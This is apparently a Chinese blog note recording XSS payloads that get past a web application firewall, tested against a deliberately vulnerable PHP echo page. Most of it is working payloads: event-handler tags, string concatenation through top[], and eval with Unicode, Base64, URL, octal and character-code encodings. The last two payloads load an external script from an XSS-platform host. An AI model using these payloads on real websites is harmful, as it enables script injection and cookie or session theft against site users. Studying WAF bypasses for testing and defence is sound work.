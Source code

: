   最近在学习xss方面的知识，涉及到waf的测试，在这里做个记录，方面查阅。

  ### 0x00 搭建环境
  - - -
  本地搭建测试waf测试，xss相关防护规则全部开启。
  
 ![1](https://ws1.sinaimg.cn/large/005DAKuvgy1g1sv90art7j30l10c0myc.jpg)
 
  ### 0x01 Self-Xss绕过
  - - -

  测试脚本
  ```php
  <?php   
    $input = @$_REQUEST["xss"];
    echo "<div>".$input."</div>"
  ?>
  ```
  
  首先思路就是一些被waf**遗漏的标签**，暂时不考虑**编码**或者**拼接字符串**这类思路，我们直接拿来测试。   

  `<video src=1 onerror=alert(/xss/)>`绕过。
  
  ![2](https://ws1.sinaimg.cn/large/005DAKuvgy1g1tv4ytym1j30uj08lq3m.jpg)
  
  类似的标签还有`<audio src=x onerror=alert(/xss/)>`
  
  ![3](https://ws1.sinaimg.cn/large/005DAKuvgy1g1tv87ifeuj30uj0933z8.jpg)
  
  除此之外以下几个`payload`都可以绕过。
  ```javascript
  <body/onfocus=alert(/xss/)>
  <details open ontoggle=alert(/xss/)>
  <button onfocus=alert(/xss/) autofocus>
  
  ```
  利用**伪协议**
  
  waf拦截
  
  ![4](https://ws1.sinaimg.cn/large/005DAKuvgy1g1tvkcpm4uj30uj08174y.jpg)
  
  加上一个**xmlns属性**即可绕过
  
  ![5](https://ws1.sinaimg.cn/large/005DAKuvgy1g1tvojz1hmj30uj08kdgj.jpg)
  
  实际上，我测试的waf是免费使用的，所以有些厂商可以象征性的取一些样本，拦截一下常见的标签，如果你购买了厂商的高级服务，那我们绕过就有难度，然而大多数网站还是使用免费版的多。
  
  ### 拼接字符类
  - - -
  拼接字符串的话，一般把关键字拆分成几个字符串，再拼接执行，结合**top**,**concat**之类的。
  
  **top对象**
  
  top输出字符
  
  ![6](https://ws1.sinaimg.cn/large/005DAKuvgy1g1uep4k2whj30ao097dfs.jpg)
  
  或者打印cookie
  
  ![7](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ueqqxro8j30f0091aa3.jpg)
  
  top可以连接`对象`以及`属性`或`函数`，那么我们可以做到很多，例如:
  
  直接top连接一个alert函数
  
  ![8](https://ws1.sinaimg.cn/large/005DAKuvgy1g1uewncru3j30x60duwem.jpg)
  
  `<details open ontoggle=top.alert(1)>`也可以绕过waf
  
  ![9](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ueypy79kj30uj093t9h.jpg)
  
  `top['alert'](1)`也可弹窗，但waf拦截
  
  ![10](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ufadg61cj30uj06vt95.jpg)
  
  绕过的话，很简单用`prompt`方法或者`confirm`都可以
  
  `<details open ontoggle=top['prompt'](1)>`
  
  ![11](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ufd5cic3j30uj08yaau.jpg)
  
  如果我说一定要用`alert`的话就要用到`接字符串`了。
  
  `<details open ontoggle=top['al'%2b'ert'](1)>` %2b为url编码的+
  
  ![12](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ufh1i5dkj30uj08jt9g.jpg)
  
  eval函数执行
  
  `<details open ontoggle=top.eval('ale'%2B'rt(1)') >`
  
  ![13](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ug4njpphj30uj090aau.jpg)
  
  eval直接用也可以弹
  
  `<details open ontoggle=eval('alert(1)') >`
  
  ![14](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ug8l4j2ej30uj08vjs5.jpg)

  这里为什么说到eval呢？因为如果eavl不拦截的话，我们可以测试各种编码，当然这是在牺牲长度的前提下。
  
  例如： `Unicode编码`
  
  `<details open ontoggle=eval('\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029') >`
  
  ![15](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ugbw6c1gj30uj08ujs6.jpg)
  
  其他：
  ```
  Base64编码：
  <details open ontoggle=eval(atob('YWxlcnQoMSk=')) >
  url编码： 
  <details open ontoggle=eval('%61%6c%65%72%74%28%31%29') >
  JS8编码：
  <details open ontoggle=eval('\141\154\145\162\164\50\61\51') >
  Ascii码绕过：
  <details open ontoggle=eval(String.fromCharCode(97,108,101,114,116,40,49,41)) >
  其他自测
  
  ```
  引用外部url，运用基于DOM的方法创建和插入节点把外部JS文件注入到网页。
  ```javascript
  <details open ontoggle=eval("appendChild(createElement('script')).src='http://xss.tf/eeW'") >
  ```
 ![16](https://ws1.sinaimg.cn/large/005DAKuvgy1g1uh5hp1a8j30uj0b1jsy.jpg)
  
  url编码
  ```javascript
  <details open ontoggle=eval(%61%70%70%65%6e%64%43%68%69%6c%64%28%63%72%65%61%74%65%45%6c%65%6d%65%6e%74%28%27%73%63%72%69%70%74%27%29%29%2e%73%72%63%3d%27%68%74%74%70%3a%2f%2f%78%73%73%2e%74%66%2f%65%65%57%27) >
  ```
  ![17](https://ws1.sinaimg.cn/large/005DAKuvgy1g1uhaxb0t2j30uj09uwg1.jpg)
  

